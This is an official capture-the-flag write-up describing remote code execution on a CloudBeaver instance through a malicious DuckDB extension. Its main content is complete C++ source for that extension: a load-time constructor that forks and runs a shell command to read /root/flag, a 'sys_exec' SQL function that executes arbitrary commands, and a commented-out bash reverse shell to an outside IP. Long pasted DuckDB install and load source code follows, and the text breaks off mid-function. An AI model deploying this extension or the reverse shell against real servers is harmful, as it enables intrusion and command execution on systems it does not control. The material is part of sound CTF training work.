

# WriteUp (Official Solution)

## Vulnerability Analysis

Upon opening the challenge, we discovered that the target exposes a CloudBeaver database management interface. It includes multiple JDBC database connections, but among them, only `DuckDB` supports in-memory database creation.

Since it is difficult to identify new attack vectors against generic JDBC connections, we focused our attack on DuckDB. DuckDB has the functionality to load extensions, but it comes with strict restrictions:
>Extension installation is the process of downloading the extension binary and verifying its metadata. During installation, DuckDB stores the downloaded extension and some metadata in a local directory. From this directory DuckDB can then load the Extension whenever it needs to. This means that installation needs to happen only once.

We authored a malicious extension by referencing <https://github.com/duckdb/extension-template/>. It is important to note that the `DuckDB` version used in CloudBeaver is `v1.3.2`, so we must switch to the corresponding version during the compilation process.

```c++
#define DUCKDB_EXTENSION_MAIN

#include "quack_extension.hpp"
#include "duckdb.hpp"
#include "duckdb/common/exception.hpp"
#include "duckdb/function/scalar_function.hpp"
#include "duckdb/main/extension_util.hpp"
#include <duckdb/parser/parsed_data/create_scalar_function_info.hpp>

// 系统命令执行需要的头文件
#include <cstdlib>
#include <cstdio>
#include <array>
#include <string>
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>

extern "C" {
    #ifndef _WIN32
    __attribute__ ((__constructor__)) void preload (void){
        // 这里的命令会在 LOAD 语句执行的瞬间运行
        // 无论后续是否报错 "entrypoint not found"
    if (fork() == 0) {
        // 子进程
        unsetenv("LD_PRELOAD");
        system("find /etc/passwd -exec cat /root/flag '{}' ';' > /tmp/result");
        exit(0);
    }        
        // 你甚至可以直接在这里反弹 shell，不用等 SQL 执行
        // system("bash -c 'bash -i >& /dev/tcp/1.2.3.4/8888 0>&1'");
    }
    #endif
}

namespace duckdb {

// -----------------------------------------------------------
// 恶意函数：执行系统命令 (Payload)
// -----------------------------------------------------------
inline void SystemExecScalarFun(DataChunk &args, ExpressionState &state, Vector &result) {
    auto &cmd_vector = args.data[0];
    
    UnaryExecutor::Execute<string_t, string_t>(cmd_vector, result, args.size(), [&](string_t cmd) {
        std::string command = cmd.GetString();
        std::string output_str = "";
        std::array<char, 128> buffer;

        // 执行命令
#ifdef _WIN32
        FILE* pipe = _popen(command.c_str(), "r");
        if (!pipe) return StringVector::AddString(result, "Error: _popen failed.");
        while (fgets(buffer.data(), buffer.size(), pipe) != nullptr) {
            output_str += buffer.data();
        }
        _pclose(pipe);
#else
        FILE* pipe = popen(command.c_str(), "r");
        if (!pipe) return StringVector::AddString(result, "Error: popen failed.");
        while (fgets(buffer.data(), buffer.size(), pipe) != nullptr) {
            output_str += buffer.data();
        }
        pclose(pipe);
#endif

        return StringVector::AddString(result, output_str);
    });
}

// -----------------------------------------------------------
// 原始 Quack 函数 (Decoy)
// -----------------------------------------------------------
inline void QuackScalarFun(DataChunk &args, ExpressionState &state, Vector &result) {
    auto &name_vector = args.data[0];
    UnaryExecutor::Execute<string_t, string_t>(name_vector, result, args.size(), [&](string_t name) {
        return StringVector::AddString(result, "Quack " + name.GetString() + " 🐥");
    });
}

// -----------------------------------------------------------
// 注册逻辑
// -----------------------------------------------------------
static void LoadInternal(DatabaseInstance &instance) {
    // 1. 注册 sys_exec
    auto system_exec_function = ScalarFunction("sys_exec", {LogicalType::VARCHAR}, LogicalType::VARCHAR, SystemExecScalarFun);
    ExtensionUtil::RegisterFunction(instance, system_exec_function);

    // 2. 注册 quack
    auto quack_scalar_function = ScalarFunction("quack", {LogicalType::VARCHAR}, LogicalType::VARCHAR, QuackScalarFun);
    ExtensionUtil::RegisterFunction(instance, quack_scalar_function);
}

// -----------------------------------------------------------
// 类方法实现
// -----------------------------------------------------------
void QuackExtension::Load(DuckDB &db) {
    LoadInternal(*db.instance);
}

std::string QuackExtension::Name() {
    return "quack";
}

std::string QuackExtension::Version() const {
#ifdef EXT_VERSION_QUACK
    return EXT_VERSION_QUACK;
#else
    return "";
#endif
}

} // namespace duckdb

// -----------------------------------------------------------
// C 入口点 (Standard C Entry Points)
// -----------------------------------------------------------
extern "C" {

// 初始化函数：必须命名为 <extension_name>_init
DUCKDB_EXTENSION_API void quack_init(duckdb::DatabaseInstance &db) {
    duckdb::LoadInternal(db);
}

// 版本函数：必须命名为 <extension_name>_version
DUCKDB_EXTENSION_API const char *quack_version() {
    return duckdb::DuckDB::LibraryVersion();
}

}
```

```c++
#pragma once

#include "duckdb.hpp"

namespace duckdb {

class QuackExtension : public Extension {
public:
    void Load(DuckDB &db) override;
    std::string Name() override;
    std::string Version() const override;
};

} // namespace duckdb
```

By observing DuckDB's `INSTALL` and `LOAD` statements, we found that the `INSTALL` statement supports both remote loading (via HTTPS protocol) and local loading. However, it performs signature verification and checks on the extension.

```c++
#include "duckdb/common/exception/http_exception.hpp"
#include "duckdb/common/gzip_file_system.hpp"
#include "duckdb/common/http_util.hpp"
#include "duckdb/common/local_file_system.hpp"
#include "duckdb/common/serializer/binary_serializer.hpp"
#include "duckdb/common/string_util.hpp"
#include "duckdb/common/types/uuid.hpp"
#include "duckdb/main/client_data.hpp"
#include "duckdb/main/extension_helper.hpp"
#include "duckdb/main/extension_install_info.hpp"
#include "duckdb/main/secret/secret.hpp"
#include "duckdb/main/secret/secret_manager.hpp"
#include "duckdb/main/settings.hpp"
#include "duckdb/common/windows_undefs.hpp"

#include <fstream>

namespace duckdb {

//===--------------------------------------------------------------------===//
// Install Extension
//===--------------------------------------------------------------------===//
const string ExtensionHelper::NormalizeVersionTag(const string &version_tag) {
 if (!version_tag.empty() && version_tag[0] != 'v') {
  return "v" + version_tag;
 }
 return version_tag;
}

bool ExtensionHelper::IsRelease(const string &version_tag) {
 return !StringUtil::Contains(version_tag, "-dev");
}

const string ExtensionHelper::GetVersionDirectoryName() {
#ifdef DUCKDB_WASM_VERSION
 return DUCKDB_QUOTE_DEFINE(DUCKDB_WASM_VERSION);
#endif
 if (IsRelease(DuckDB::LibraryVersion())) {
  return NormalizeVersionTag(DuckDB::LibraryVersion());
 } else {
  return DuckDB::SourceID();
 }
}

const vector<string> ExtensionHelper::PathComponents() {
 return vector<string> {GetVersionDirectoryName(), DuckDB::Platform()};
}

string ExtensionHelper::ExtensionInstallDocumentationLink(const string &extension_name) {
 auto components = PathComponents();

 string link = "https://duckdb.org/docs/stable/extensions/troubleshooting";

 if (components.size() >= 2) {
  link += "?version=" + components[0] + "&platform=" + components[1] + "&extension=" + extension_name;
 }

 return link;
}

vector<duckdb::string> ExtensionHelper::DefaultExtensionFolders(FileSystem &fs) {
 vector<duckdb::string> default_folders;
// These fallbacks are necessary if the user doesn't use the CMake build.
#ifndef DUCKDB_EXTENSION_DIRECTORIES
#ifdef _WIN32
#define DUCKDB_EXTENSION_DIRECTORIES "~\\.duckdb\\extensions"
#else
#define DUCKDB_EXTENSION_DIRECTORIES "~/.duckdb/extensions"
#endif
#endif
 string dirs_string(DUCKDB_EXTENSION_DIRECTORIES);

 // Skip if empty
 if (dirs_string.empty()) {
  return default_folders;
 }

 // Split the string by separator
 auto directories = StringUtil::Split(dirs_string, ';');

 for (auto &dir : directories) {
  // Skip empty directories
  if (dir.empty()) {
   continue;
  }

  default_folders.push_back(dir);
 }

 return default_folders;
}

vector<string> ExtensionHelper::GetExtensionDirectoryPath(ClientContext &context) {
 auto &db = DatabaseInstance::GetDatabase(context);
 auto &fs = FileSystem::GetFileSystem(context);
 return GetExtensionDirectoryPath(db, fs);
}

vector<string> ExtensionHelper::GetExtensionDirectoryPath(DatabaseInstance &db, FileSystem &fs) {
 vector<string> extension_directories;
 auto &config = db.config;

 if (!config.options.extension_directory.empty()) {
  extension_directories.push_back(config.options.extension_directory);
 }

 if (!config.options.extension_directories.empty()) {
  // Add all configured extension directories
  for (const auto &dir : config.options.extension_directories) {
   extension_directories.push_back(dir);
  }
 }
 if (extension_directories.empty()) {
  // Add default extension directory if no custom directories configured
  for (const auto &default_dir : ExtensionHelper::DefaultExtensionFolders(fs)) {
   extension_directories.push_back(default_dir);
  }
 }

 // Process all directories with common path operations
 auto path_components = PathComponents();
 for (auto &extension_directory : extension_directories) {
  // convert random separators to platform-canonic
  extension_directory = fs.ConvertSeparators(extension_directory);
  // expand ~ in extension directory
  extension_directory = fs.ExpandPath(extension_directory);

  // Add path components (version and platform)
  for (auto &path_ele : path_components) {
   extension_directory = fs.JoinPath(extension_directory, path_ele);
  }
 }

 return extension_directories;
}

string ExtensionHelper::ExtensionDirectory(DatabaseInstance &db, FileSystem &fs) {
#ifdef WASM_LOADABLE_EXTENSIONS
 throw PermissionException("ExtensionDirectory functionality is not supported in duckdb-wasm");
#endif
 auto extension_directories = GetExtensionDirectoryPath(db, fs);
 // TODO: This should never be the case given the implementation of GetExtensionDirectoryPath
 // should we still keep this check?
 D_ASSERT(!extension_directories.empty());

 string extension_directory = extension_directories[0]; // Use first/primary directory
 {
  if (!fs.DirectoryExists(extension_directory)) {
   string home_directory = fs.GetHomeDirectory();
   if (extension_directory.rfind(home_directory, 0) == 0 && !fs.DirectoryExists(home_directory)) {
    throw IOException("Can't find the home directory at '%s'\nSpecify a home directory using the SET "
                      "home_directory='/path/to/dir' option.",
                      home_directory);
   }
   fs.CreateDirectoriesRecursive(extension_directory);
  }
 }
 D_ASSERT(fs.DirectoryExists(extension_directory));

 return extension_directory;
}

string ExtensionHelper::ExtensionDirectory(ClientContext &context) {
 auto &db = DatabaseInstance::GetDatabase(context);
 auto &fs = FileSystem::GetFileSystem(context);
 return ExtensionDirectory(db, fs);
}

bool ExtensionHelper::CreateSuggestions(const string &extension_name, string &message) {
 auto lowercase_extension_name = StringUtil::Lower(extension_name);
 vector<string> candidates;
 for (idx_t ext_count = ExtensionHelper::DefaultExtensionCount(), i = 0; i < ext_count; i++) {
  candidates.emplace_back(ExtensionHelper::GetDefaultExtension(i).name);
 }
 for (idx_t ext_count = ExtensionHelper::ExtensionAliasCount(), i = 0; i < ext_count; i++) {
  candidates.emplace_back(ExtensionHelper::GetExtensionAlias(i).alias);
 }
 auto closest_extensions = StringUtil::TopNJaroWinkler(candidates, lowercase_extension_name);
 message = StringUtil::CandidatesMessage(closest_extensions, "Candidate extensions");
 for (auto &closest : closest_extensions) {
  if (closest == lowercase_extension_name) {
   message = "Extension \"" + extension_name + "\" is an existing extension.\n";
   return true;
  }
 }
 return false;
}

unique_ptr<ExtensionInstallInfo> ExtensionHelper::InstallExtension(DatabaseInstance &db, FileSystem &fs,
                                                                   const string &extension,
                                                                   ExtensionInstallOptions &options) {
#ifdef WASM_LOADABLE_EXTENSIONS
 // Install is currently a no-op
 return nullptr;
#endif
 string local_path = ExtensionDirectory(db, fs);
 return InstallExtensionInternal(db, fs, local_path, extension, options);
}

unique_ptr<ExtensionInstallInfo> ExtensionHelper::InstallExtension(ClientContext &context, const string &extension,
                                                                   ExtensionInstallOptions &options) {
#ifdef WASM_LOADABLE_EXTENSIONS
 // Install is currently a no-op
 return nullptr;
#endif
 auto &db = DatabaseInstance::GetDatabase(context);
 auto &fs = FileSystem::GetFileSystem(context);
 string local_path = ExtensionDirectory(context);
 return InstallExtensionInternal(db, fs, local_path, extension, options, context);
}

static unsafe_unique_array<data_t> ReadExtensionFileFromDisk(FileSystem &fs, const string &path, idx_t &file_size) {
 auto source_file = fs.OpenFile(path, FileFlags::FILE_FLAGS_READ);
 file_size = source_file->GetFileSize();
 auto in_buffer = make_unsafe_uniq_array<data_t>(file_size);
 source_file->Read(QueryContext(), in_buffer.get(), file_size);
 source_file->Close();
 return in_buffer;
}

static void WriteExtensionFileToDisk(FileSystem &fs, const string &path, void *data, idx_t data_size) {
 auto target_file = fs.OpenFile(path, FileFlags::FILE_FLAGS_WRITE | FileFlags::FILE_FLAGS_APPEND |
                                          FileFlags::FILE_FLAGS_FILE_CREATE_NEW);
 target_file->Write(data, data_size);
 target_file->Close();
 target_file.reset();
}

static void WriteExtensionMetadataFileToDisk(FileSystem &fs, const string &path, ExtensionInstallInfo &metadata) {
 auto file_writer = BufferedFileWriter(fs, path);
 BinarySerializer::Serialize(metadata, file_writer);
 file_writer.Sync();
}

string ExtensionHelper::ExtensionUrlTemplate(optional_ptr<const DatabaseInstance> db,
                                             const ExtensionRepository &repository, const string &version) {
 string versioned_path;
 if (!version.empty()) {
  versioned_path = "/${NAME}/" + version + "/${REVISION}/${PLATFORM}/${NAME}.duckdb_extension";
 } else {
  versioned_path = "/${REVISION}/${PLATFORM}/${NAME}.duckdb_extension";
 }
 string default_endpoint = ExtensionRepository::DEFAULT_REPOSITORY_URL;
#ifdef WASM_LOADABLE_EXTENSIONS
 versioned_path = versioned_path + ".wasm";
#else
 versioned_path = versioned_path + CompressionExtensionFromType(FileCompressionType::GZIP);
#endif
 string url_template = repository.path + versioned_path;
 return url_template;
}

string ExtensionHelper::ExtensionFinalizeUrlTemplate(const string &url_template, const string &extension_name) {
 auto url = StringUtil::Replace(url_template, "${REVISION}", GetVersionDirectoryName());
 url = StringUtil::Replace(url, "${PLATFORM}", DuckDB::Platform());
 url = StringUtil::Replace(url, "${NAME}", extension_name);
 return url;
}

static void CheckExtensionMetadataOnInstall(DatabaseInstance &db, void *in_buffer, idx_t file_size,
                                            ExtensionInstallInfo &info, const string &extension_name) {
 if (file_size < ParsedExtensionMetaData::FOOTER_SIZE) {
  throw IOException("Failed to install '%s', file too small to be a valid DuckDB extension!", extension_name);
 }

 auto parsed_metadata = ExtensionHelper::ParseExtensionMetaData(static_cast<char *>(in_buffer) +
                                                                (file_size - ParsedExtensionMetaData::FOOTER_SIZE));

 auto metadata_mismatch_error = parsed_metadata.GetInvalidMetadataError();

 if (!metadata_mismatch_error.empty() && !DBConfig::GetSetting<AllowExtensionsMetadataMismatchSetting>(db)) {
  throw IOException("Failed to install '%s'\n%s", extension_name, metadata_mismatch_error);
 }

 info.version = parsed_metadata.extension_version;
}

// Note: since this method is not atomic, this can fail in different ways, that should all be handled properly by
// DuckDB:
//   1. Crash after extension removal: extension is now uninstalled, metadata file still present
//   2. Crash after metadata removal: extension is now uninstalled, extension dir is clean
//   3. Crash after extension move: extension is now uninstalled, new metadata file present
static void WriteExtensionFiles(FileSystem &fs, const string &temp_path, const string &local_extension_path,
                                void *in_buffer, idx_t file_size, ExtensionInstallInfo &info) {
 // Write extension to tmp file
 WriteExtensionFileToDisk(fs, temp_path, in_buffer, file_size);

 // Write metadata to tmp file
 auto metadata_tmp_path = temp_path + ".info";
 auto metadata_file_path = local_extension_path + ".info";
 WriteExtensionMetadataFileToDisk(fs, metadata_tmp_path, info);

 fs.MoveFile(metadata_tmp_path, metadata_file_path);
 fs.MoveFile(temp_path, local_extension_path);
}

// Install an extension using a filesystem
static unique_ptr<ExtensionInstallInfo> DirectInstallExtension(DatabaseInstance &db, FileSystem &fs, const string &path,
                                                               const string &temp_path, const string &extension_name,
                                                               const string &local_extension_path,
                                                               ExtensionInstallOptions &options,
                                                               optional_ptr<ClientContext> context) {
 string extension;
 string file;
 if (fs.IsRemoteFile(path, extension)) {
  file = path;
  // Try autoloading httpfs for loading extensions over https
  if (context) {
   auto &db = DatabaseInstance::GetDatabase(*context);
   if (extension == "httpfs" && !db.ExtensionIsLoaded("httpfs") &&
       db.config.options.autoload_known_extensions) {
    ExtensionHelper::AutoLoadExtension(*context, "httpfs");
   }
  }
 } else {
  file = fs.ConvertSeparators(path);
 }

 // Check if file exists
 bool exists = fs.FileExists(file);

 // Recheck without .gz
 if (!exists && StringUtil::EndsWith(file, CompressionExtensionFromType(FileCompressionType::GZIP))) {
  file = file.substr(0, file.size() - 3);
  exists = fs.FileExists(file);
 }

 // Throw error on failure
 if (!exists) {
  if (!fs.IsRemoteFile(file)) {
   throw IOException("Failed to install local extension \"%s\", no access to the file at PATH \"%s\"\n",
                     extension_name, file);
  }
  if (StringUtil::StartsWith(file, "https://")) {
   throw IOException("Failed to install remote extension \"%s\" from url \"%s\"", extension_name, file);
  }
 }

 idx_t file_size;
 auto in_buffer = ReadExtensionFileFromDisk(fs, file, file_size);

 ExtensionInstallInfo info;

 string decompressed_data;
 void *extension_decompressed;
 idx_t extension_decompressed_size;

 if (GZipFileSystem::CheckIsZip(const_char_ptr_cast(in_buffer.get()), file_size)) {
  decompressed_data = GZipFileSystem::UncompressGZIPString(const_char_ptr_cast(in_buffer.get()), file_size);
  extension_decompressed = (void *)decompressed_data.data();
  extension_decompressed_size = decompressed_data.size();
 } else {
  extension_decompressed = (void *)in_buffer.get();
  extension_decompressed_size = file_size;
 }

 CheckExtensionMetadataOnInstall(db, extension_decompressed, extension_decompressed_size, info, extension_name);

 if (!options.repository) {
  info.mode = ExtensionInstallMode::CUSTOM_PATH;
  info.full_path = file;
 } else {
  info.mode = ExtensionInstallMode::REPOSITORY;
  info.full_path = file;
  info.repository_url = options.repository->path;
 }

 WriteExtensionFiles(fs, temp_path, local_extension_path, extension_decompressed, extension_decompressed_size, info);

 return make_uniq<ExtensionInstallInfo>(info);
}

#ifndef DUCKDB_DISABLE_EXTENSION_LOAD
static unique_ptr<ExtensionInstallInfo> InstallFromHttpUrl(DatabaseInstance &db, const string &url,
                                                           const string &extension_name, const string &temp_path,
                                                           const string &local_extension_path,
                                                           ExtensionInstallOptions &options,
                                                           optional_ptr<ClientContext> context) {
 unique_ptr<ExtensionInstallInfo> install_info;
 {
  auto fs = FileSystem::CreateLocal();
  if (fs->FileExists(local_extension_path + ".info")) {
   try {
    install_info =
        ExtensionInstallInfo::TryReadInfoFile(*fs, local_extension_path + ".info", extension_name);
   } catch (...) {
    if (!options.force_install) {
     // We are going to rewrite the file anyhow, so this is fine
     throw;
    }
   }
  }
 }

 HTTPHeaders headers(db);
 if (options.use_etags && install_info && !install_info->etag.empty()) {
  headers.Insert("If-None-Match", StringUtil::Format("%s", install_info->etag));
 }

 auto &http_util = HTTPUtil::Get(db);
 unique_ptr<HTTPParams> params;
 if (context) {
  params = http_util.InitializeParameters(*context, url);
 } else {
  params = http_util.InitializeParameters(db, url);
 }

 // Unclear what's peculiar about extension install flow, but those two parameters are needed
 // to avoid lengthy retry on 304
 params->follow_location = false;
 params->keep_alive = false;

 GetRequestInfo get_request(url, headers, *params, nullptr, nullptr);
 get_request.try_request = true;

 auto response = http_util.Request(get_request);
 if (!response->Success()) {
  // if we should not retry or exceeded the number of retries - bubble up the error
  string message;
  ExtensionHelper::CreateSuggestions(extension_name, message);

  auto documentation_link = ExtensionHelper::ExtensionInstallDocumentationLink(extension_name);
  if (!documentation_link.empty()) {
   message += "\nFor more info, visit " + documentation_link;
  }
  if (response->HasRequestError()) {
   // request error - this means something went wrong performing the request
   throw IOException("Failed to download extension \"%s\" at URL \"%s\"\n%s (ERROR %s)", extension_name, url,
                     message, response->GetRequestError());
  }
  // if this was not a request error this means the server responded - report the response status and response
  throw HTTPException(*response, "Failed to download extension \"%s\" at URL \"%s\" (HTTP %n)\n%s",
                      extension_name, url, int(response->status), message);
 }
 if (response->status == HTTPStatusCode::NotModified_304 && install_info) {
  return install_info;
 }

 auto decompressed_body = GZipFileSystem::UncompressGZIPString(response->body);

 ExtensionInstallInfo info;
 CheckExtensionMetadataOnInstall(db, (void *)decompressed_body.data(), decompressed_body.size(), info,
                                 extension_name);
 if (response->HasHeader("ETag")) {
  info.etag = response->GetHeaderValue("ETag");
 }

 if (options.repository) {
  info.mode = ExtensionInstallMode::REPOSITORY;
  info.full_path = url;
  info.repository_url = options.repository->path;
 } else {
  info.mode = ExtensionInstallMode::CUSTOM_PATH;
  info.full_path = url;
 }

 auto fs = FileSystem::CreateLocal();
 WriteExtensionFiles(*fs, temp_path, local_extension_path, (void *)decompressed_body.data(),
                     decompressed_body.size(), info);

 return make_uniq<ExtensionInstallInfo>(info);
}

// Install an extension using a hand-rolled http request
static unique_ptr<ExtensionInstallInfo> InstallFromRepository(DatabaseInstance &db, FileSystem &fs, const string &url,
                                                              const string &extension_name, const string &temp_path,
                                                              const string &local_extension_path,
                                                              ExtensionInstallOptions &options,
                                                              optional_ptr<ClientContext> context) {
 string url_template = ExtensionHelper::ExtensionUrlTemplate(db, *options.repository, options.version);
 string generated_url = ExtensionHelper::ExtensionFinalizeUrlTemplate(url_template, extension_name);

 // Special handling for http repository: avoid using regular filesystem (note: the filesystem is not used here)
 if (StringUtil::StartsWith(options.repository->path, "http://")) {
  return InstallFromHttpUrl(db, generated_url, extension_name, temp_path, local_extension_path, options, context);
 }

 // Default case, let the FileSystem figure it out
 return DirectInstallExtension(db, fs, generated_url, temp_path, extension_name, local_extension_path, options,
                               context);
}

static bool IsHTTP(const string &path) {
 return StringUtil::StartsWith(path, "http://") || !StringUtil::StartsWith(path, "https://");
}

static void ThrowErrorOnMismatchingExtensionOrigin(FileSystem &fs, const string &local_extension_path,
                                                   const string &extension_name, const string &extension,
                                                   optional_ptr<ExtensionRepository> repository) {
 auto install_info = ExtensionInstallInfo::TryReadInfoFile(fs, local_extension_path + ".info", extension_name);

 string format_string = "Installing extension '%s' failed. The extension is already installed "
                        "but the origin is different.\n"
                        "Currently installed extension is from %s '%s', while the extension to be "
                        "installed is from %s '%s'.\n"
                        "To solve this rerun this command with `FORCE INSTALL`";
 string repo = "repository";
 string custom_path = "custom_path";

 if (install_info) {
  if (install_info->mode == ExtensionInstallMode::REPOSITORY && repository &&
      install_info->repository_url != repository->path) {
   throw InvalidInputException(format_string, extension_name, repo, install_info->repository_url, repo,
                               repository->path);
  }
  if (install_info->mode == ExtensionInstallMode::REPOSITORY && ExtensionHelper::IsFullPath(extension)) {
   throw InvalidInputException(format_string, extension_name, repo, install_info->repository_url, custom_path,
                               extension);
  }
 }
}
#endif // DUCKDB_DISABLE_EXTENSION_LOAD

unique_ptr<ExtensionInstallInfo> ExtensionHelper::InstallExtensionInternal(DatabaseInstance &db, FileSystem &fs,
                                                                           const string &local_path,
                                                                           const string &extension,
                                                                           ExtensionInstallOptions &options,
                                                                           optional_ptr<ClientContext> context) {
#ifdef DUCKDB_DISABLE_EXTENSION_LOAD
 throw PermissionException("Installing external extensions is disabled through a compile time flag");
#else

 auto extension_name = ApplyExtensionAlias(fs.ExtractBaseName(extension));
 string local_extension_path = fs.JoinPath(local_path, extension_name + ".duckdb_extension");
 string temp_path = local_extension_path + ".tmp-" + UUID::ToString(UUID::GenerateRandomUUID());

 if (fs.FileExists(local_extension_path) && !options.force_install) {
  // File exists: throw error if origin mismatches
  if (options.throw_on_origin_mismatch && !DBConfig::GetSetting<AllowExtensionsMetadataMismatchSetting>(db) &&
      fs.FileExists(local_extension_path + ".info")) {
   ThrowErrorOnMismatchingExtensionOrigin(fs, local_extension_path, extension_name, extension,
                                          options.repository);
  }

  // File exists, but that's okay, install is now a NOP
  return nullptr;
 }

 fs.TryRemoveFile(temp_path);

 if (ExtensionHelper::IsFullPath(extension) && options.repository) {
  throw InvalidInputException("Cannot pass both a repository and a full path url");
 }

 // Resolve default repository if there is none set
 ExtensionRepository resolved_repository;
 if (!ExtensionHelper::IsFullPath(extension) && !options.repository) {
  resolved_repository = ExtensionRepository::GetDefaultRepository(db.config);
  options.repository = resolved_repository;
 }

 // Install extension from local, direct url
 if (ExtensionHelper::IsFullPath(extension) && !IsHTTP(extension)) {
  LocalFileSystem local_fs;
  return DirectInstallExtension(db, local_fs, extension, temp_path, extension, local_extension_path, options,
                                context);
 }

 // Install extension from local url based on a repository (Note that this will install it as a local file)
 if (options.repository && !IsHTTP(options.repository->path)) {
  LocalFileSystem local_fs;
  return InstallFromRepository(db, fs, extension, extension_name, temp_path, local_extension_path, options,
                               context);
 }

#ifdef DISABLE_DUCKDB_REMOTE_INSTALL
 throw BinderException("Remote extension installation is disabled through configuration");
#else

 // Full path direct installation
 if (IsFullPath(extension)) {
  if (StringUtil::StartsWith(extension, "http://")) {
   // HTTP takes separate path to avoid dependency on httpfs extension
   return InstallFromHttpUrl(db, extension, extension_name, temp_path, local_extension_path, options, context);
  }

  // Direct installation from local or remote path
  return DirectInstallExtension(db, fs, extension, temp_path, extension, local_extension_path, options, context);
 }

 // Repository installation
 return InstallFromRepository(db, fs, extension, extension_name, temp_path, local_extension_path, options, context);
#endif
#endif
}

} // namespace duckdb
```

The `LOAD` syntax is what actually loads the binary file into the `DuckDB` instance. During this process, it attempts to load functions based on the filename.

```c++

#include "duckdb.h"
#include "duckdb/common/dl.hpp"
#include "duckdb/common/operator/cast_operators.hpp"
#include "duckdb/common/string_util.hpp"
#include "duckdb/common/virtual_file_system.hpp"
#include "duckdb/main/capi/capi_internal.hpp"
#include "duckdb/main/capi/extension_api.hpp"
#include "duckdb/main/error_manager.hpp"
#include "duckdb/main/extension_helper.hpp"
#include "duckdb/main/extension_manager.hpp"
#include "duckdb/main/settings.hpp"
#include "mbedtls_wrapper.hpp"

#ifndef DUCKDB_NO_THREADS
#include <thread>
#endif // DUCKDB_NO_THREADS

#ifdef WASM_LOADABLE_EXTENSIONS
#include <emscripten.h>
#endif

namespace duckdb {

//===--------------------------------------------------------------------===//
// Extension C API
//===--------------------------------------------------------------------===//

//! State that is kept during the load phase of a C API extension
struct DuckDBExtensionLoadState {
 explicit DuckDBExtensionLoadState(DatabaseInstance &db_p, ExtensionInitResult &init_result_p)
     : db(db_p), init_result(init_result_p), database_data(nullptr) {
 }

 //! Create a DuckDBExtensionLoadState reference from a C API opaque pointer
 static DuckDBExtensionLoadState &Get(duckdb_extension_info info) {
  D_ASSERT(info);
  return *reinterpret_cast<duckdb::DuckDBExtensionLoadState *>(info);
 }

 //! Convert to an opaque C API pointer
 duckdb_extension_info ToCStruct() {
  return reinterpret_cast<duckdb_extension_info>(this);
 }

 //! Ref to the database being loaded
 DatabaseInstance &db;

 //! The init result from initializing the extension
 ExtensionInitResult &init_result;

 //! This is the duckdb_database struct that will be passed to the extension during initialization. Note that the
 //! extension does not need to free it.
 unique_ptr<DatabaseWrapper> database_data;

 //! The function pointer struct passed to the extension. The extension is expected to copy this struct during
 //! initialization
 duckdb_ext_api_v1 api_struct;

 //! Error handling
 bool has_error = false;
 //! The stored error from the loading process
 ErrorData error_data;
};

//! Contains the callbacks that are passed to CAPI extensions to allow initialization
struct ExtensionAccess {
 //! Create the struct of function pointers to pass to the extension for initialization
 static duckdb_extension_access CreateAccessStruct() {
  return {SetError, GetDatabase, GetAPI};
 }

 //! Called by the extension to indicate failure to initialize the extension
 static void SetError(duckdb_extension_info info, const char *error) {
  auto &load_state = DuckDBExtensionLoadState::Get(info);

  load_state.has_error = true;
  load_state.error_data =
      error ? ErrorData(error)
            : ErrorData(ExceptionType::UNKNOWN_TYPE, "Extension has indicated an error occurred during "
                                                     "initialization, but did not set an error message.");
 }

 //! Called by the extension get a pointer to the database that is loading it
 static duckdb_database *GetDatabase(duckdb_extension_info info) {
  auto &load_state = DuckDBExtensionLoadState::Get(info);

  try {
   // Create the duckdb_database
   load_state.database_data = make_uniq<DatabaseWrapper>();
   load_state.database_data->database = make_shared_ptr<DuckDB>(load_state.db);
   return reinterpret_cast<duckdb_database *>(load_state.database_data.get());
  } catch (std::exception &ex) {
   load_state.has_error = true;
   load_state.error_data = ErrorData(ex);
   return nullptr;
  } catch (...) {
   load_state.has_error = true;
   load_state.error_data =
       ErrorData(ExceptionType::UNKNOWN_TYPE, "Unknown error in GetDatabase when trying to load extension!");
   return nullptr;
  }
 }

 //! Called by the extension get a pointer the correctly versioned extension C API struct.
 static const void *GetAPI(duckdb_extension_info info, const char *version) {
  string version_string = version;
  auto &load_state = DuckDBExtensionLoadState::Get(info);

  if (load_state.init_result.abi_type == ExtensionABIType::C_STRUCT) {
   idx_t major, minor, patch;
   auto parsed = VersioningUtils::ParseSemver(version_string, major, minor, patch);

   if (!parsed || !VersioningUtils::IsSupportedCAPIVersion(major, minor, patch)) {
    load_state.has_error = true;
    load_state.error_data = ErrorData(
        ExceptionType::UNKNOWN_TYPE,
        "Unsupported C CAPI version detected during extension initialization: " + string(version));
    return nullptr;
   }
  } else if (load_state.init_result.abi_type == ExtensionABIType::C_STRUCT_UNSTABLE) {
   // NOTE: we currently don't check anything here: the version of extensions of ABI type C_STRUCT_UNSTABLE is
   // ignored because C_STRUCT_UNSTABLE extensions are tied 1:1 to duckdb verions meaning they will always
   // receive the whole function pointer struct
  } else {
   load_state.has_error = true;
   load_state.error_data =
       ErrorData(ExceptionType::UNKNOWN_TYPE,
